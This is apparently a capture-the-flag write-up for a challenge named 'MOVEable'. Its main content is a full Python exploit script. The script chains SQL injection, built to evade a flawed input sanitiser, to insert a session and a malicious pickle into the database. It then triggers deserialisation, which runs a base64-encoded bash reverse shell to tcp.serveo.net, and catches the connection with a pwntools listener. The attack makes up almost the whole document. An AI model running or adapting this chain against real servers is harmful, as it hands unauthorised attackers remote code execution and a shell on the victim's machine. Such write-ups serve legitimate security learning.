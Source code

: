 ## MOVEable

Inspecting the source code we find a DBClean which improperly sanitzes user input, so it is susceptible to the rght SQLi. We also find that this uses Pickle files, which can be deserialized and RCE is possible. So we will need 2 SQLi to inject a user and session into the DB, then a third to upload the malicious pickle file for revshell. Reversing the DBClean() function made it easy to input a regular SQLi and have it converted to the right format in order to inject.

```python
#!/usr/bin/env python3
from pwn import *
import base64
import pickle
import os
import subprocess
import requests

context.log_level = 'info'

URL = input("Enter the challenge URL: ").rstrip("/")

USER = input("Enter the username for session creation: ")
PASSWORD = input("Enter the password for session creation: ")
SESSION_ID = input("Enter the session ID (ex. 123): ")
PICKLE_PAYLOAD_NAME = input("Enter the filename for the pickle payload: ")

PORT = input("Enter the port number for tcp.serveo.net: ")

IP_PORT = f"tcp.serveo.net/{PORT}"

log.info(f"Target URL: {URL}")
log.info(f"Your reverse shell will connect to {IP_PORT}")

log.info(f"Setting up SSH tunnel to serveo.net on port {PORT}...")
subprocess.run(["ssh", "-R", f"{PORT}:localhost:{PORT}", "serveo.net"])

def doPickle(payload):
    class PickleRce(object):
        def __reduce__(self):
            return (os.system, (payload,))
    return base64.b64encode(pickle.dumps(PickleRce()))

def triggerPayload(filename):
    log.info("Triggering payload")

    endpoint = f"{URL}/download/{filename}/{SESSION_ID}"
    log.info(f"Endpoint: {endpoint}")
    
    response = requests.get(endpoint, verify=False, allow_redirects=False)
    return response.text

def DBRestore(string):
    string = string.replace("'", "\\'")
    string = string.replace("\n", "%0a")
    string = string.replace(" ", "/**/")
    return string

def sendRequest(description, data):
    log.info(f"{description}")
    data = f'username={data}&password={PASSWORD}'
    response = requests.post(f"{URL}/login", data=data, verify=False, allow_redirects=False)
    
    return response.text

session_payload = DBRestore(f"{USER}';\nINSERT INTO activesessions (sessionid, username) VALUES ('{SESSION_ID}', '{USER}');--")
sendRequest("Create session", session_payload)

encodedCommand = base64.b64encode(f'bash -i >& /dev/tcp/{IP_PORT} 0>&1'.encode('utf-8')).decode('utf-8')
Command = f'echo "{encodedCommand}" | base64 -d | bash '
picklePayload = doPickle(Command).decode('utf-8')

file_payload = DBRestore(f"{USER}';\nINSERT INTO files (filename, data, sessionid) VALUES ('{PICKLE_PAYLOAD_NAME}', '{picklePayload}', '{SESSION_ID}');--")
sendRequest("Create file", file_payload)

triggerPayload(PICKLE_PAYLOAD_NAME)

log.info(f"Setting up listener on tcp.serveo.net:{PORT}")
listener = listen(int(PORT))
listener.wait_for_connection()
log.success("Connection received! Starting interaction...")
listener.interactive()
```

